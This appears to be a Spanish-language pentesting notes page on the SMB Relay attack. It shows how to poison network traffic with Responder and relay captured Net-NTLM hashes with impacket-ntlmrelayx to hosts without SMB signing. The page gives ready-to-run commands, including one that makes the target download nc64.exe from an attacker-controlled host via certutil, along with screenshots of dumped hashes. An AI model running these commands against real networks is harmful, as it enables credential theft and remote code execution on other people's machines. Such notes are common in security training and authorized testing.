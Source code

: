 ```yaml
---
description: SMB Signing -> False
---
```


# SMB Relay

### Descripción&#x20;

Este ataque consiste en capturar los hashes Net-NTLM de un cliente, reenviarlos a un segundo cliente, permitiendonos actuar como si fuesemos el primer cliente. Debido a que el primer cliente es un usuario administrador, podremos ejecutar comandos o ganar una shell en el segundo cliente.

Para poder hacer el relaying el cliente del que capturemos los hashes Net-NTLM deberá pertenecer al grupo local de administradores sobre el cual vamos a querer ejecutar comandos y que el SMB signing esté desactivado.

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

**/usr/share/responder/Responder.Conf:**

![](<../../../.gitbook/assets/image (31).png>)



### Explotación

Envenenar el tráfico con responder:

```bash
python Responder.py -I eth0 -dw 
```

Empezar el ataque con ntlmrelayx

<pre><code># con elbinario de impacket que viene en kali
impacket-ntlmrelayx -t (ip-target) -smb2support # el -smb2support es para versiones posteriores a WindowsServer 2008
<strong>impacket-ntlmrelayx -t 192.168.0.110 -smb2support
</strong>impacket-ntlmrelayx -tf targets.txt -smb2support

# ejecutar comandos
impacket-ntlmrelayx -t 192.168.0.110 -c "certutil.exe -f -urlcache -split http://192.168.0.108:9090/nc64.exe C:\\Windows\\Temp\\nc.exe" -smb2support

</code></pre>

Cliente 1 con privilegios de administrador en el cliente 2:

<figure><img src="../../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

Hashes dumpeados con ntlmrelayx

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

